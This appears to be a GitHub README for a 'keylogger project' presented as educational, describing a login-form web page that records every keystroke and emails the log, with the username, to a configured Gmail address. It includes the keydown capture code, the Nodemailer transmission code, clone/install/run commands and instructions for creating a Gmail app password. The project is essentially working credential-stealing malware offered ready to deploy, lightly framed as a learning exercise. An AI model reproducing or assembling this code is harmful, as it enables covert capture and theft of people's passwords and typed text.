


# 🕵️‍♂️ Keylogger Project

A comprehensive **educational project** demonstrating **client-server communication, event handling, and data processing** in web applications. This implementation focuses on understanding **keystroke capture mechanisms** and **secure data transmission protocols**.

---

## 📌 System Architecture



### 🔹 Layers Overview:
- **🔵 Frontend Layer:** Handles user interaction and keystroke capture
- **🟢 Backend Services:** Processes captured data and manages email transmission
- **🟡 Configuration:** Stores environment variables and settings

---

## 📂 Project Structure

```plaintext
📁 project-root/
├── 📄 index.js          # Backend server implementation
├── 📄 script.js         # Frontend keystroke capture
├── 📄 index.html        # Login form interface
├── 📄 keycodes.js       # Key mapping definitions
├── 📄 styles.css        # UI styling
└── 📄 .env             # Environment configuration
```

---

## 🔄 Data Flow Visualization



### 🔹 Phases Breakdown:
1. **🔵 Normal Login Flow** – User interaction and data capture
2. **🟢 Processing Phase** – Data handling and transmission
3. **🟡 Error Handling** – Robust fault tolerance mechanisms

---

## 🛠️ Setup Instructions

### 🔹 Clone the Repository
```bash
git clone https://github.com/pranaykumar2/keylogger.git
```

### 🔹 Install Dependencies
```bash
npm install
```

### 🔹 Configure Environment Variables
```plaintext
GMAILFROM=your-from-email@gmail.com
PASSWORD=your-email-password
GMAILTO=your-to-email@gmail.com
PORT=3000
```

### 🔹 Initialize Server
```bash
node index.js
```

---

## 🔍 Implementation Details

### ✏️ Keystroke Capture Mechanism
```javascript
document.addEventListener('keydown', (event) => {
    const keyInfo = {
        keyCode: event.keyCode,
        key: event.key,
        timestamp: new Date().getTime(),
        eventType: 'keydown'
    };
    capturedKeys.push(keyInfo);
});
```

### 📩 Email Transmission System
```javascript
const transporter = nodemailer.createTransport({
    service: 'gmail',
    auth: {
        user: process.env.GMAILFROM,
        pass: process.env.PASSWORD
    }
});

const mailOptions = {
    from: process.env.GMAILFROM,
    to: process.env.GMAILTO,
    subject: 'Keystrokes Log',
    text: `Keystrokes log for user ${username}:
${keysPressedText}`
};
```

---

## 🔐 Security Considerations

- ✅ **Use environment variables** to store sensitive credentials
- ✅ **Implement error handling and logging** for robust operations
- ✅ **Use secure communication protocols** to prevent data leaks
- ✅ **Regularly update dependencies** to prevent vulnerabilities

---

## 📋 Steps to Setup `APP PASSWORD`

1. Go to your Google Account **App Passwords**: [Google App Passwords](https://myaccount.google.com/apppasswords)
2. Name your app and create the password
3. Copy the generated password and use it in the `.env` file

---

## 📝 Usage Guide

🚀 **Launch the application** at `localhost:3000`
📌 **Enter login credentials** in the form
⌨️ **Type any additional text** while the page is active
📤 **Submit the form** to trigger email transmission

---

## 💻 Technologies Used

🔷 **Frontend:** HTML, CSS, JavaScript  
🔷 **Backend:** Node.js, Express.js  
🔷 **Utilities:** Nodemailer, Body-parser  
🔷 **Development:** Git

---

## 🤝 Contributing Guidelines

- 📌 **Open an issue** before submitting major changes
- 📌 **Follow the existing code style** for consistency
- 📌 **Include comprehensive test cases** when adding features
- 📌 **Document new features** thoroughly in the README

---

## 📜 License

Released under the **MIT License**. See `LICENSE` file for details.

---

### 🎯 **Enjoy coding and stay secure! 🔐**

